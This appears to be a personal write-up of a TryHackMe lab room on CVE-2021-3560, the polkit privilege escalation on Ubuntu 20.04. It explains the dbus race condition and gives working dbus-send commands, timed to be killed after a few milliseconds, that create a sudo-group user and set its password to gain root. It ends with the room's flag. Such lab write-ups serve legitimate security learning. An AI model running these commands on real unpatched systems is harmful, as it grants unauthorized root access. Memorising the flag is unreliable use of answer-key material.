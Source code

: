 ```yaml
---
sticker: emoji//1fa81
---
```

## _**Overview**_  
---
In early 2021 a researcher named [Kevin Backhouse](https://github.blog/author/kevinbackhouse/) discovered a seven year old privilege escalation vulnerability (since designated CVE-2021-3560) in the Linux polkit utility. Fortunately, different distributions of Linux (and even different versions of the same distributions) use different versions of the software, meaning that only some are vulnerable.

Specifically, the following mainstream distributions, amongst others, were vulnerable:

- Red Hat Enterprise Linux 8
- Fedora 21 (or later)
- Debian Testing ("Bullseye")
- Ubuntu 20.04 LTS ("Focal Fossa")  

All should now have released patched versions of their respective polkit packages, however, if you encounter one of these distributions then it may still be vulnerable if it hasn't been updated for a while.

For this room we will be focusing specifically on Ubuntu 20.04. Canonical released a patch for their version of polkit (`policykit-1`), which has version number `0.105-26ubuntu1.1`. The last vulnerable version available in the apt repositories for Focal Fossa is `0.105-26ubuntu1`, so, if you see this, you may be in luck!

We can use `apt list --installed | grep policykit-1` to check the installed version of polkit:  

![Image demonstrating the installed vulnerable version of polkit](https://assets.muirlandoracle.co.uk/thm/rooms/polkit/3e537ed069ff.png)

The original description of this vulnerability can be found in a post written by Kevin Backhouse, [here](https://github.blog/2021-06-10-privilege-escalation-polkit-root-on-linux-with-bug/).  

---

### _**What is Polkit?**_  
----
The logical question to be asking right now is: "What is polkit?"

Polkit is part of the Linux authorization system. In effect, when you try to perform an action which requires a higher level of privileges, the policy toolkit can be used to determine whether you have the requisite permissions. It is integrated with systemd and is much more configurable than the traditional sudo system. Indeed, it is sometimes referred to as the "sudo of systemd".

When interacting with polkit we can use `pkexec`, instead of `sudo`. As an example, attempting to run the `useradd` command through `pkexec` in a GUI session results in a pop-up asking for credentials:  
`pkexec useradd test1234`  
![Demonstrating the polkit GUI authentication dialogue](https://assets.muirlandoracle.co.uk/thm/rooms/polkit/3ceb61a94882.png)  

In a CLI session, we get a text-based prompt instead:  
![Demonstrating the polkit CLI authentication dialogue](https://assets.muirlandoracle.co.uk/thm/rooms/polkit/b42accbd7f01.png)  

To summarize, the policy toolkit can be thought of as a fine-grained alternative to the simpler sudo system.

---

### _**How is Polkit vulnerable?**_  
---
The next logical question is of course: "How can we exploit polkit"?

The short answer is: by manually sending dbus messages to the dbus-daemon (effectively an API to allow different processes the ability to communicate with each other), then killing the request before it has been fully processed, we can trick polkit into authorizing the command. If you are not familiar with daemons, they are effectively background services running on Linux. The dbus-daemon is a program running in the background which brokers messages between applications.  

For the sake of keeping this room relatively light, we won't go too deep into the specifics behind this (although reading the [full article on the vulnerability](https://github.blog/2021-06-10-privilege-escalation-polkit-root-on-linux-with-bug/#about) is highly recommended). Effectively, the vulnerability can be boiled down to these steps:

```ad-summary
1. The attacker manually sends a dbus message to the accounts-daemon requesting the creation of a new account with sudo permissions (or latterly, a password to be set for the new user). This message gets given a unique ID by the dbus-daemon.  
2. The attacker kills the message after polkit receives it, but before polkit has a chance to process the message. This effectively destroys the unique message ID.
3. Polkit asks the dbus-daemon for the user ID of the user who sent the message, referencing the (now deleted) message ID.
4. The dbus-daemon can't find the message ID because we killed it in step two. It handles the error by responding with an error code.
5. Polkit mishandles the error and substitutes in 0 for the user ID -- i.e. the root account of the machine.  
6. Thinking that the root user requested the action, polkit allows the request to go through unchallenged.
```

In short, by destroying the message ID before the `dbus-daemon` has a chance to give polkit the correct ID, we exploit the poor error-handling in polkit to trick the utility into thinking that the request was made by the all-powerful root user.  

If this doesn't make sense now, hopefully it will after you've had a chance to perform the exploit yourself!


## Exploitation Process
----

We've seen the theory, now let's see it in action!

Let's try to add a new user called `attacker`, with sudo permissions, and a password of `Expl01ted`. Just read this information for now -- you will have time to try it in the next task!  

First, let's look at the dbus messages we'll need to send:

- `dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:attacker string:"Pentester Account" int32:1`

This command will manually send a dbus message to the accounts daemon, printing the response and creating a new user called attacker (`string:attacker`) with a description of "Pentester Account" (`string:"Pentester Account"`) and membership of the sudo group set to true (referenced by the`int32:1` flag).

Our second dbus message will set a password for the new account:

- `dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts/UserUSER_ID org.freedesktop.Accounts.User.SetPassword string:'PASSWORD_HASH' string:'Ask the pentester'`  



This once again sends a dbus message to the accounts daemon, requesting a password change for the user with an ID which we specify (shown in red), a password hash which we need to generate manually, and a hint ("Ask the pentester")

---

As this is effectively a race condition, we first need to determine how long our command will take to run. Let's try this with the first dbus message:  

`time dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:attacker string:"Pentester Account" int32:1`  

![](https://assets.muirlandoracle.co.uk/thm/rooms/polkit/fe8af4395935.png)  

This takes 0.011 seconds, or 11 milliseconds. This number will be slightly different each time you run the command; however, on the provided machine it should always be _around_ this number.

_**Note:** For the first five minutes or so of deployment the machine is still booting things in the background, so don't be alarmed if the time you get is a lot longer to begin with -- just keep running the command periodically until it gives you a time in a similar region to the results above._

We need to kill the command approximately halfway through execution. Five milliseconds usually works fairly well on the provided machine; however, be aware that this is not an exact thing. You may need to change the sleep time, or run the command several times before it works. That said, once you find a time that works, it should work consistently. If you are struggling to get a working time, putting the command inside a bash for loop and quickly running through a range of times tends to work fairly well.  

Let's try this. We need to send the dbus message, then kill it about halfway through:  

`dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:attacker string:"Pentester Account" int32:1 & sleep 0.005s; kill $!`

![](https://assets.muirlandoracle.co.uk/thm/rooms/polkit/b1dba51148aa.png)  

To explain the above command, we sent the dbus message in a background job (using the ampersand to background the command). We then told it to sleep for 5 milliseconds (`sleep 0.005s`), then kill the previous process (`$!`). This successfully created the new user, adding them into the sudo group.  
We should note down at this point that the user ID of the new user in this instance is 1000.

Now all we need to do is give the user a password and we should be good to go!

---

We need a password hash here, so let's generate a Sha512Crypt hash for our chosen password (`Expl01ted`):  

`openssl passwd -6 Expl01ted`  

![](https://assets.muirlandoracle.co.uk/thm/rooms/polkit/1316626c8114.png)  

Using openssl, we generate a password of type 6 (SHA512-crypt) and our plaintext password (`Expl01ted`).

Now let's finish this! 5 milliseconds worked last time, so it should work here too:  

`dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts/User1000 org.freedesktop.Accounts.User.SetPassword string:'$6$TRiYeJLXw8mLuoxS$UKtnjBa837v4gk8RsQL2qrxj.0P8c9kteeTnN.B3KeeeiWVIjyH17j6sLzmcSHn5HTZLGaaUDMC4MXCjIupp8.' string:'Ask the pentester' & sleep 0.005s; kill $!`

![](https://assets.muirlandoracle.co.uk/thm/rooms/polkit/12e11c378d8d.png)

With a hop, su, and a `sudo -s`, we have root!


![[Pasted image 20250107154644.png]]

We have root flag, we must submit it to the flag system and we will get our normal flag:

![[Pasted image 20250107154738.png]]

So, our flag would be: `THM{N2I0MTgzZTE4ZWQ0OGY0NjdiNTQ0NTZi}`
